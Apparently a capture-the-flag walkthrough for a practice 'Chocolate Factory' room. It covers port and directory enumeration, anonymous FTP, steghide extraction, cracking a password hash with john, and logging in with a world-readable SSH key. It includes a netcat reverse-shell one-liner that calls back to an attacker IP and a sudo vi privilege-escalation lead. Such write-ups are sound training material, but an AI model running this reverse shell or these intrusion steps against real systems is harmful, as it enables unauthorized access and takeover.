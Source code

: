 ## Chocolate Factory Notes.

Room tags: `CTF` `stego` `privesc`

Target IP: `10.10.15.13`

## Goals/Questions

- Enter a key that you found.

- Charlies Password

- User Flag

- Root flag


## Enumeration. 

### rustscan/nmap

`sudo rustscan -a $IP -- -sC -sV`

Open Ports:

A lot. A lot of "open" ports. Most are either inactive, error out, or contain some 'story' fluff. 

Even using `rustscan` still took ~10 mins. 

- 21 - ftp - anonymous 
- 22 - ssh
- 80 - http

[rustscan](images/rust.png)

[scan-syntax](images/scan.png)

### gobuster

`gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt`

- index.html

[gobuster](images/gobuster.png)

### Website

[index](images/index.png)

Index page source had no real extra information.

downloaded `image.png` that is the background for `index.html`

### FTP

Anon FTP was allowed. 

`ftp $IP`

FTP server had `gum_room.jpeg`

`get gum_room.jpg`

### steghide

`steghide --extract -sf gum_room.jpg`

The image contained `b64.txt`

`cat b64.txt`

Obvious base 64.

`cat b64.txt | base64 --decode > pw.txt`

Charlies password hash is contained within. Isolate it with `tail -1 pw.txt > charlie.txt`

### john

`john charlie.txt --wordlist=/user/share/wordlists/rockyou.txt`

### ssh?

Attempted to SSH using the password found above (`cn7824`) and no dice. 

Brought it back to the website, and was able to log in with that. 

used a nc oneliner to open a reverse shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.6.20 1234 >/tmp/f`

`/home/charlie` was accessible and had `teleport` and `teleport.pub` readable by everyone

Using a simple `cat teleport` I copied the contents to a new file on my host VM, and then used it to ssh into the target as the user `charlie`.

The rsa key needs to be set to only allow the owner to read it using `chmod 400 teleport` and then you will be able to use it to log in as charlie

`ssh -i teleport charlie@$IP`

`user.txt` was located in `/home/charlie`

running `sudo -l` shows that you can use `vi` with no password. 
